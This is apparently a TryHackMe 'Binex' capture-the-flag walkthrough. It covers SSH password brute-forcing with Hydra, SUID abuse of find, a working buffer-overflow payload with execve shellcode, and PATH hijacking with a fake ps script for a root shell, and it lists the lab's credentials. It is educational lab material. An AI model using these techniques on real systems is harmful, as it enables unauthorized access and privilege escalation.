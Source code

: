 # [Binex](https://tryhackme.com/room/binex)

## Escalate your privileges by exploiting vulnerable binaries

# Gain initial access

## Enumerate the machine and get an interactive shell. Exploit an SUID bit file, use GNU debugger to take advantage of a buffer overflow and gain root access by PATH manipulation.

### What are the login credential for initial access

_Hint 1: RID range 1000-1003 Hint 2: The longest username has the unsecure password._

1. Scan the target to identify open ports and services

```bash
nmap IP
```

![SCREEN01](https://github.com/user-attachments/assets/22cf3579-364e-4ae8-8ec1-4024491542ca)

2. Enumerate users with `enum4linux`
   - The longest username is **tryhackme**

```bash
enum4linux IP
```

![SCREEN02](https://github.com/user-attachments/assets/c9171b6b-bdd4-4d30-8e1a-78cd9a17445a)

3. Brute force the SSH password with Hydra
   - The credentials are `tryhackme:thebest`

```bash
hydra -l tryhackme -P /root/Tools/wordlists/rockyou.txt  ssh://IP
```

![SCREEN03](https://github.com/user-attachments/assets/088f93da-aa97-4809-aee8-81a06cba5d5a)

---

# SUID :: Binary 1

## Read the flag.txt from des's home directory

### What is the contents of /home/des/flag.txt?

_File permission is all you need.. Setuid..._

1. Log in via SSH using our discovered credentials

```bash
ssh tryhackme@IP
```

2. Search for SUID binaries on the system

```bash
find / -type f -perm -u=s 2>/dev/null
```

![SCREEN04](https://github.com/user-attachments/assets/5eae1fd2-8909-4789-ad9e-e9cdf32bb4e0)

3. We can use `/usr/bin/find` command to read the flag

```bash
/usr/bin/find /home/des/flag.txt -type f -exec cat {} \;
```

![SCREEN05](https://github.com/user-attachments/assets/11e26c52-8d84-4f83-8576-d8d9ced2a75c)

---

# Buffer Overflow :: Binary 2

## Read the flag.txt from kel's home directory

If you are stuck, here are the hints for the exploit.

### What is the contents of /home/kel/flag.txt?

1. Log in as `des` user and analyze the vulnerable program

```bash
ssh des@IP
# Password: destructive_72656275696c64

cd /home/des
ls
cat bof64.c
```

![SCREEN06](https://github.com/user-attachments/assets/a23def57-d0f9-4678-8996-458b9af69adf)

2. This C program contains a buffer overflow vulnerability in the `foo` function. The buffer is 600 bytes, but read can read up to 1000 bytes, allowing for overflow

```bash
(python -c 'print("\x90" * 539 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "A" * 50 + "\x7c\xe3\xff\xff\xff\x7f\x00\x00")';cat) | ./bof

whoami
cat /home/kel/flag.txt
```

![SCREEN07](https://github.com/user-attachments/assets/8cd2fc9f-7de7-4927-b660-663c320c07c0)

---

# PATH Manipulation :: Binary 3

## Get the root flag from the root directory. This will require you to understand how the PATH variable works.

### What is the contents of /root/root.txt?

_The true path leads you to the flag._

1. Log in as `kel`

```bash
su kel
# Password: kelvin_74656d7065726174757265
ls /home/kel
cat exe.c
```

![SCREEN08](https://github.com/user-attachments/assets/f92c7812-5b3a-4b6a-9b05-ae3e9ae119af)

2. Create a malicious ps script in `/tmp`. Add `/tmp` to the beginning of your PATH. Execute the vulnerable program to get root shell and read the flag

```bash
cd /tmp
echo -e '#!/bin/bash\n/bin/bash' > ps
chmod +x ps
export PATH=/tmp:$PATH
cd /home/kel
./exe
cat /root/root.txt
```

![SCREEN09](https://github.com/user-attachments/assets/79abeda6-01f6-4699-b088-ce9c1946e607)
